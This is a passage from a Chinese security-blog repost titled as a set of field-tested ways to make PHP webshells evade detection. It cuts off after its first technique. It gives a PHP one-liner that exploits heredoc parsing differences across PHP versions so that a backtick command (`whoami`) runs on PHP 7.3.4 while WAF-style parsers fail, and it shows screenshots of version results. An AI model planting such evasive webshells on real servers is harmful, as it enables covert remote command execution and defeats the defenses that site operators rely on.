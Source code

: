 #  几种实战成功过的webshell免杀方式

[ LemonSec ](javascript:void\(0\);)

**LemonSec** ![]()

微信号 lemon-sec

功能介绍 每日发布安全资讯～

____

__

收录于话题

文章来源：先知社区（Icepaper）

原文地址：https://xz.aliyun.com/t/10937

  

 **0x01 php的免杀**

传统的php免杀不用多说了，无非就是各种变形和外部参数获取，对于一些先进的waf和防火墙来说，不论如何解析最终都会到达命令执行的地方，但是如果语法报错的话，就可能导致解析失败了，这里简单说几个利用php版本来进行语义出错的php命令执行方式。  

  

###  **1、利用在高版本php语法不换行来执行命令**

  *   *   *   *   * 

    
    
     <?=$a=<<< aaassasssasssasssasssasssasssasssasssasssasssassssaa;echo `whoami`?>

  

####  **5.2 版本报错**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212743.png)  
 **5.3
版本报错**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212758.png)  

####  **5.4 版本报错**

![]()  

####  **7.3.4 成功执行命令**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212800.png)

  

###  **2、利用\特殊符号来引起报错**

  *   * 
